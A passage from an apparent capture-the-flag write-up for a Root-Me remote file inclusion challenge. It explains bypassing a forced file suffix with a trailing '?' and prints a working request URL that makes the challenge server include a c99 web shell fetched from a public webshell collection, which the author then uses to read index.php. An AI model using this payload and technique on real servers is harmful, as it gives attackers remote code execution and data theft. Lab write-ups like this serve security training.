 ![GitHub Logo](web_security/root-me/asset/RFI.png)

With an unexpected input, now, we can see the what kind of vulnerability exist in this challenge. But different from LFI, thought source code can be read, there is nothing in. Notice the gived hint,  it points us to read "PHP source code", but as I said, I read the source of two files and find nothing :( ...Hừm.. Wait a minute! there are not all, still have one source file we haven't ever read. Of course, index.php is still there.
Big goal is reading index.php! Big question, rightnow: How?? All user-input file name gonna be added with "_lang.php" (As u can see in picture above). I tried add %00 follow filename but it seem to didn't work. Fortunately, with some help from Mr.Guc, I find out the key, i add "?" follow filename like
http://challenge01.root-me.org/web-serveur/ch13/?lang=https://raw.githubusercontent.com/tennc/webshell/master/web-malware-collection-13-06-2012/PHP/c99.txt?
"?" make the tail ("_lang.php") is treated as parameter. Specialy, in case "allow_url_include" in php.ini is on, we can include remote file and definely, pass a url (with params) into include() is valid.
At last, I used c99 shell to download and read file index.php. You guys totally laught at me because of that solution, It's really "farmer" :v, but i have no choie when don't know how to read that file immediately :)
